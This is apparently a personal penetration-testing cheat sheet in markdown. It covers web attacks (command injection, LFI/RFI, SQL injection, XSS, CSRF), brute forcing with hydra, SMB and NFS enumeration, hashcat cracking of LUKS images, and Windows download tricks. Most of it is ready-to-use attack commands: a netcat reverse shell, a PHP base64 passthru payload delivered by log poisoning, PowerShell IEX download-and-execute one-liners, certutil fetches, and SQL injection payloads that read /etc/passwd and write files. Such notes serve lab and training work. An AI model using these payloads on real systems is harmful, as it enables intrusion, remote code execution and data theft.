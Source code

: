 # Tools

#### RCE

`;` or `|` to add commands

***

#### LFI

* traverse directories
* `/proc/self/environ`
  * can also be done on other log files
  * can send base64 encoded scripts through and decode
  * `ssh [payload]@[hostip]`
  * payload would be something like `<?php passthru(base64_decode('[b64encoded string]')); ?>`
* use burp to mod headers
* `nc -e /bin/sh [ip] [port]`
  * add listener first `nc -lvnp [port]`
* https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion

***

#### RFI

* storing a txt file on webserver of a machine we have access to which can connect to the machine we want access to (we want to attack MS VM we have access to Kali VM, store file on Kali, use LFI but pass in url to file to pull, add `?` to param to get it to execute as php, change caps of protocol for bypassing some checks)

***

#### File uploads

* change mime type
* change file extension
* add magic characters

***

#### SQL Injection

* in forms:
  * check with `pass' and 1=1#` in password field if you have a valid login
  * can also use `pass' OR 1=1#` with an invalid login but have a good username
  * could also just use username field if good username: `admin'#`
  * if there are checks on the client side, can remove onsubmit functions in the dom or intercept good data on burp and modify before it's sent to include the SQLi
* in get params:
  * try `order by 1#`, may have to urlencode `#` to `%23`
  * use this to increment through column count then you can `union select 1,2,3..n%23`
  * `union select 1,table_name,null,null,..,n from information_scema.tables`
  * etc,etc
* to bypass some filtering, you may need to convert strings into hex, urlencode everything and send it
* sometimes changing param sequences or case will bypass some filters as well
* when records are limited, iterate in sql to get all info desired
  *
    * `limit 0,1` then `1,1`, `2,1`, etc etc
* reading files: `union select load_file('/etc/passwd'),2 #`
* write to file: `union select 'test text',null into outfile '/var/www/output.txt'#`
  * may not have write access, use LFI for possible workaround if available - write to /tmp with sql injection, use LFI to access file (could also to RFI if separate machines have different vulns)
* Tools
  * sqlmap
    * `sqlmap -r [filename].req --level 4 --risk 3`

***

#### XSS

* more info from python course
* url params and input boxes
* `<script>alert('1')</script>`
* often change case to fool filters
* look at page source to see how code is being output and modify accordingly
* urling urlencoding is almost always helpful
* always try to modify the DOM (remove inline methods, remove maxlength attributes, etc)
* get charcode, use String.fromCharCode instead of using quotes

***

#### Cookies

* simple cookies can be manipulated to allow access (uid, etc)

***

#### CSRF

* make a hidden version of a form that submits on load

***

#### Creating Wordlists

* crunch: `crunch [min] [max] [chars] -t [pattern] -o [filename]`
* `crunch 6 8 123abc$ -o wordlist -t a@@@@b`, 6-8 chars, include 1,2,3,a,b,c,$, start with a, end with b

***

#### encrypted cookies

* can sometimes be busted with padbuster

***

#### Brute forcing

* Hydra
  * `hydra [hostIP] -l [login] -L [loginfile] -p [pass] -P [passfile] -C [user:pass file] [service]`
  * for web form, append `"path-to-form.ext:[username]=^USER^&password=^PASS^&other-param=param:F=Not Logged In String"`

***

#### WFUZZ

* Need notes!!!

***

#### ZAP

* automated scanning, but more manual than many of the tools
* can audit all scans after

***

#### NFS

* list mounts:
  * `showmount -e [ip]`
* mount share:
  * `mount -t nfs -o vers=2 [ip]:[share] /mnt`

***

#### SMB

* `smbmap -H [IP] -u anonymous`
  * can add directory recursion with `-r --depth [num]`
  * can pass the hash with -p (password or hash)
  * can also list shares with smbclient `smbclient -L //[IP]` hit enter for password for guest access
* `smbclient -N //[IP]/[share]`
  * username can be added with `-u [username]`
* `smbget -R //IP/SHARE` get all files from smb share

***

#### hashcat

* `hashcat --example-hashes`
* LUKS exncrypted disk images
  * `cryptsetup luksDump [imgfile]` to get payload offet +1
  * `dd if=[imgfile] of=[outfile] bs=512 count=[offset]`
  * `hashcat -m 14600 [file] [wordlist]`

***

#### mounting LUKS disk image

* `cryptsetup luksOpen backup.img [name]`
* `ls /dev/mapper`
* `mount /dev/mapper/[name] /mnt`

***

#### PowerShell

* powershell can switch from cmd to powershell
* Downloading files:
  * `IEX(New-Object Net.WebClient).downloadString('http://[host]/[file]')`
  * `(New-Object Net.WebClient).downloadString('http://[host]/[file]')`
  * `Invoke-WebRequest -Uri http://[host]/[file]`
    * `IWR -uri http://[host]/[file]` also works
    * `-OutFile C:\\windows\\temp\\filename.ext` to specify a filename
  * if in cmd shell, need to use `powershell` prefix
* listing all files:
  * `gci -recurse . | select fullname`
* copy binary file to b64 string for rebuilding:
  * `certutil -encode [filepath] [outfile path].b64`
  * `type [outfile path].b64`
  * copy, paste to file on host
  * base64 decode it:
    * `base64 -d [filename].b64 > [filename].ext`
* creating credentials from string
  * `$pass = ConvertTo-SecureString '[pass]' -AsPlainText -Force`
  * `$cred = New-Object System.Management.Automation.PSCredential("[user]",$pass)`
  * `hostname`
  * `Invoke-Command -Computer [hostnmame] -ScriptBlock { whoami } -Credential $cred`
    * can use this to then run another IWR to grab a shell and get escalated shell
* useful to use rlwrap on your listener:
  * `rlwrap nc -lvnp 9001` - this will give history up arrow, ctrl L to clear, etc.
* bypass admin lockout if in admin group
  * `net use Z: \\127.0.0.1\c$`
  * `z:`
* UACME for ways to bypass UAC

***

#### CMD

* download a file
  * `certutil -urlcache -f http://[host]/[file] [outfile path]`

***

#### TheHarvester

#### whatweb

#### wappalyzer

#### pownjs

#### enum4linux
